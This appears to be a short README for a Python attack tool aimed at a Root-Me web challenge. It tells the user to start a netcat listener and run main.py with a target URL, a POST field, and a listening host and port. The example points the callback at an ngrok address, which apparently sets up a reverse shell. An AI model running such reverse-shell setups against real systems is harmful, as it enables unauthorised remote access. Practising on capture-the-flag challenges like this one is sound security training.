 

# How to use ?

**You must open a netcat listener before : nc -lvp Your listening port**

Then launch :

> python3 main.py -u url -d post_variable -lhost Your listening ip -lport Your listening port

Example : 
> python main.py -u http://challenge01.root-me.org/web-serveur/ch41/check -d nickname -lhost 2.tcp.ngrok.io -lport 11598


